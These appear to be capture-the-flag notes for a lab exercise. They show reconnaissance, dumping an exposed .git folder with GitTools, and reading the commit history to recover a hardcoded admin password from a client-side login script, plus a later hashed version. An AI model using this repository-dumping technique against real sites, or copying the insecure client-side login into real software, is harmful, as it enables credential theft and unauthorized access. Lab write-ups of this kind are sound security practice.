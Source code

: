 <code>
nmap, gobuster

found .git folder and dashboard.html


┌──(duke㉿kali)-[~/Documents/THM_GitHappens]
└─$ git clone https://github.com/internetwache/GitTools.git/        
Cloning into 'GitTools'...
remote: Enumerating objects: 242, done.
remote: Counting objects: 100% (33/33), done.
remote: Compressing objects: 100% (23/23), done.
remote: Total 242 (delta 9), reused 27 (delta 7), pack-reused 209
Receiving objects: 100% (242/242), 56.46 KiB | 3.14 MiB/s, done.
Resolving deltas: 100% (88/88), done.
                                                                                                                    
┌──(duke㉿kali)-[~/Documents/THM_GitHappens]
└─$ ./GitTools/Dumper/gitdumper.sh http://10.10.231.42/.git/ clone
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating clone/.git/
[+] Downloaded: HEAD

git clone https://github.com/internetwache/GitTools.git/        
Cloning into 'GitTools'...
remote: Enumerating objects: 242, done.
remote: Counting objects: 100% (33/33), done.
remote: Compressing objects: 100% (23/23), done.
remote: Total 242 (delta 9), reused 27 (delta 7), pack-reused 209
Receiving objects: 100% (242/242), 56.46 KiB | 3.14 MiB/s, done.
Resolving deltas: 100% (88/88), done.

                                                                                                                                                                                                                                        
┌──(duke㉿kali)-[~/Documents/THM_GitHappens/clone/.git]
└─$ git log                                                 
commit d0b3578a628889f38c0affb1b75457146a4678e5 (HEAD -> master, tag: v1.0)
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Thu Jul 23 22:22:16 2020 +0000

    Update .gitlab-ci.yml

commit 77aab78e2624ec9400f9ed3f43a6f0c942eeb82d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:21:25 2020 +0200

    add gitlab-ci config to build docker file.

commit 2eb93ac3534155069a8ef59cb25b9c1971d5d199
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:08:38 2020 +0200

    setup dockerfile and setup defaults.

commit d6df4000639981d032f628af2b4d03b8eff31213
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:42:30 2020 +0200

    Make sure the css is standard-ish!

commit d954a99b96ff11c37a558a5d93ce52d0f3702a7d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:41:12 2020 +0200

    re-obfuscating the code to be really secure!

commit bc8054d9d95854d278359a432b6d97c27e24061d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:37:32 2020 +0200

    Security says obfuscation isn't enough.
    
    They want me to use something called 'SHA-512'

commit e56eaa8e29b589976f33d76bc58a0c4dfb9315b1
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:25:52 2020 +0200

    Obfuscated the source code.
    
    Hopefully security will be happy!

commit 395e087334d613d5e423cdf8f7be27196a360459
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:17:43 2020 +0200

    Made the login page, boss!

commit 2f423697bf81fe5956684f66fb6fc6596a1903cc
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Mon Jul 20 20:46:28 2020 +0000

    Initial commit
                                                                                                                    
┌──(duke㉿kali)-[~/Documents/THM_GitHappens/clone/.git]
└─$ git show 395e087334d613d5e423cdf8f7be27196a360459
commit 395e087334d613d5e423cdf8f7be27196a360459
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:17:43 2020 +0200

    Made the login page, boss!

diff --git a/css/style.css b/css/style.css
new file mode 100644
index 0000000..48926fd
--- /dev/null
+++ b/css/style.css
@@ -0,0 +1,197 @@
+* {
+  -webkit-font-smoothing: antialiased;
+  text-rendering: optimizeLegibility;
+}
+
+html,
+body {
+  height: 100%;
+}
+
+body {
+  display: -webkit-box;
+  display: flex;
+  -webkit-box-align: center;
+  align-items: center;
+  -webkit-box-pack: center;
+  justify-content: center;

+    <script>
+      function login() {
+        let form = document.getElementById("login-form");
+        console.log(form.elements);
+        let username = form.elements["username"].value;
+        let password = form.elements["password"].value;
+        if (
+          username === "admin" &&
+          password === "Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!"
+        ) {
+          document.cookie = "login=1";
+          window.location.href = "/dashboard.html";


<h2> use DeObfuscator for javascript </h2>
  
async function login() {
  let formElement = document.getElementById('login-form');
  console.log(formElement.elements);

  let username = formElement.elements['username'].value;
  let password = await digest(formElement.elements['password'].value);

  if (username === 'admin' && password === 'f64cb3d84319a5106e6a7c7ca5f298a865c5bea0703a71fd51a1513ec9cb') {
    document.cookie = 'login=1';
    window.location.href = '/dashboard';
  } else {
    document.getElementById('login-status').innerHTML = 'Invalid username or password';
  }
}

async function digest(data) {
  const encoder = new TextEncoder();
  const message = encoder.encode(data + 'SaltySecret');
  const hashBuffer = await crypto.subtle.digest('SHA-512', message);
  const hashArray = Array.from(new Uint8Array(hashBuffer));
  const hashString = hashArray.map(byte => byte.toString(16).padStart(2, '0')).join('');
  return hashString;
}

</code>

